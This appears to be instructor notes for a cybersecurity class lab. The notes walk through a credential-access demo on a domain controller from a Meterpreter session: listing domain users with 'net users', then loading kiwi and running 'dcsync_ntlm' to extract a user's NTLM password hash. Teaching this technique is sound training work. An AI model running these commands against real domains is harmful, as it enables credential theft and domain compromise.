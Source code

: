 Explain that we will now conduct a demonstration on how to use **DCSync**.

#### Credential Access Demo 

In order to find out what users are on the domain, we will use the `net` command. `net` is a command that allows a user to list groups, users, network connections, etc. on a Windows machine.

1. In the SYSTEM Meterpreter shell on WINDC01, enter a `shell`.

	- `shell`
	
	 ![A screenshot depicts entering a command shell.](Images/shell.PNG)	
	
2. Next, type `net users` to view the users on the machine. Explain to students that performing this command on a non-DC will only display local users. Since we're on a DC, there are no local users and all users on a DC are domain users, thus `net users` displays all users in the domain.

	- `net users` 
	
	 ![A screenshot depicts displaying the domain users.](Images/netusers.PNG)	
	
3. `exit` the command shell and load `kiwi`.

	- `exit`
	
	- `load kiwi`

4. Now that we have a list of users, we can request their NTLM passwords via DCSync attack.

	- `dcsync_ntlm cdanvers`
	
	 ![A screenshot depicts dcsyncing the cdanvers user.](Images/dcsync.PNG)	
	